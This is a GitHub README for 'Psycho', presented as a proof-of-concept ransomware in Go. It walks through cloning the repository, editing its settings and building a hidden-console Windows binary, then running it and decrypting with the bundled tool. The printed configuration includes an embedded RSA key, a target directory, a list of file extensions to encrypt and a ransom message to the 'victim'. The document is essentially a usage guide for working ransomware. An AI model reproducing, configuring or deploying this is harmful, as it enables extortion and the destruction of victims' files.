 # Psycho
Psycho PoC ransomware
![alt text](https://github.com/Null-byte-00/images/blob/master/Free_Sample_By_Wix.jpg?raw=true)<br>
psycho is a PoC ransomware written in go<br><br>
tested on windows 10
## possibilities:
<ul>
<li>using hybrid encryption (witch is fast and safe)</li>
<li>customize settings</li>
<li>good appearance</li>
<li>changing background picture</li>
</ul>

## requirements:
<ul>
<li>gcc (added to Path)</li>
<li>golang (you can download from here: https://golang.org/dl/)</li>
<li>fyne (golang library: http://www.fyne.io/fyne)</li>
</ul>

## to use:

### clone the repository

```
git clone https://github.com/Null-byte-00/Psycho
```

### change settings

go to Psycho/psycho/main.go and change the settings:

```golang
	/*** SETTINGS ***/
	//server rsa public key ( if you want to change this you should first generate a rsa keypair next replace it in both ransomware and decryptor programs )
	serverpubkey := "-----BEGIN PUBLIC KEY-----\nMIIBojANBgkqhkiG9w0BAQEFAAOCAY8AMIIBigKCAYEA3eWrYNmEzwLXGT0HUqqu\nkrimoiBKZE9mIzWvN51YLONneY0B8/yiLgJxg5pUOp8AEnu3gQm9uPQzbdyZniQq\n58HzSS+2Py17/UWlwqZVueUQ/RBvhH/BaEDZlKK7SUzeUqWbC0klDeLQ1nY48DEJ\nD2wNkz3CWXgDqQ0tfOqy+hRrR6ispOZc7k2SDd6cX8jkKzacH7sxBDYDVT2E/nYP\nkOBcCUW2ywN/y0FE1uqxim+axwtFW652k5ARHalmOVIXM6Oky6r4x49MN8zkIZEC\nhGDIOxQGYUEtp+0NhmAMyl26DtI23NMjyTaB7+DYtEZzSYgBllmfla1RtoEgKaHI\ns30PIUvZQGmg6VcEEhfy0hbtjDjWANkBrNewK46mH9pwH2wsYmm9QSftUjF62PbM\nLrFxoJS1w6NeYTC+s5JqGnG3sftCzGXMI+VSRvoVAWU+mm/ntQj5yww4nRq4Ylre\nJZAsLRUfT87c5uomolGitlGPIyXjxhxgPzc5egvQ199BAgMBAAE=\n-----END PUBLIC KEY-----"
	//root directory ( only files in this directory and subfolders of this directory will be encrypted )
	rootdir := "H:\\"
	//valid file extensions to encrypt ( only files with these extensions will be encrypted )
	validfileextensions := []string{"lnk" ,"pdf", "doc", "docx", "docm", "xlsx", "xlsm", "jpg", "jpeg", "png", "mp3", "mp4", "mkv", "py", "cs", "c", "cpp"}
	//valid file size to encrypt ( only files that have the same or less weight than this will be encrypted )
	//here is 400MB --> 1024 * 1024 * 400 = 419430400
	validfilesize := 419430400
	//the massage you want to show to the victim
	message := "Hi dear victim!\n"
	message += "Some of your files are encrypted now\n"
	message += "do not waste your time there is no way \nto get your files back except our decryption service"
```

### create binary file

just go to Psycho/psycho directory and run: <br>

```
go build -ldflags -H=windowsgui main
```

-ldflags -H=windowsgui options will hide the console window

### run the file

just click on main.exe file<br>
after some seconds desktop ppicture will change and a window like this will appear<br>

![alt text](https://github.com/Null-byte-00/images/blob/master/psychodemo.png?raw=true)<br>


and you can see that some of your files are encrypted<br>

![alt text](https://github.com/Null-byte-00/images/blob/master/psychoencrypteddemo.png?raw=true)<br>

### decrypting files

to decrypt files click on Get victimkey button. you will see a notepad window. <br>

![alt text](https://github.com/Null-byte-00/images/blob/master/psychovictimkeydemo.png?raw=true)<br>

copy this text and go to Psycho/psychodecryptor and run:<br>

```
go run decryptor.go <victim key here>
```

decryptor will give you a 32 character text like this:<br>
```
k8T2fDFkKbdBwdlnbVgxJTucm0oNBdwa
```
now enter this text in Password textbox and click on Check password button. psycho will start to decrypt your files (it can take a while)<br>
![alt text](https://github.com/Null-byte-00/images/blob/master/psychodecryptdemo.png?raw=true)<br>

Now you got your files back<br>
Have fun!


